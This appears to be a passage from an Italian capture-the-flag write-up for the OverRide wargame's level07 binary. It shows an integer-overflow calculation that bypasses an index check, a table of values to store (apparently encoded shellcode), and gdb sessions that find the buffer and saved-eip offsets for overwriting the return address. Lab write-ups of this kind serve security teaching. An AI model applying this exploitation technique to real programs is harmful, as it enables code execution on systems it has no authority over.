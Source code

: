 ```
4294967296 / 4 + 6 = 1073741830
```
Dunque dovremmo inserire i seguente dati:
```
+------------+------------+
|   indice   |   numero   |
+------------+------------+
| 1073741824 | 1750122545 |
|          1 | 1752379183 |
|          2 | 1768042344 |
| 1073741827 | 1357089134 |
|          4 |  836864339 |
|          5 | 2198581458 |
| 1073741830 | 2160980196 |
+------------+------------+
```
Ora ci serve l'indirizzo del buffer e la distanza rispetto al buffer 
dell'indirizzo in `eip` così da poter scrivere l'indirizzo sempre tramite
indice del buffer:
```
level07@OverRide:~$ gdb -q level07
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b read_number
Breakpoint 1 at 0x80486dd
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 1, 0x080486dd in read_number ()
(gdb) x /x $ebp+8
0xffffd520:     0xffffd544
(gdb) p /d (0xffffd544 - 0xffffd520) / 4
$1 = 9
```
l'indirizzo del buffer possiamo trovarlo all'indice `-9`
```
level07@OverRide:~$ gdb -q level07
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
(gdb) p /d (0xffffd70c - 0xffffd544) / 4
$1 = 114
```
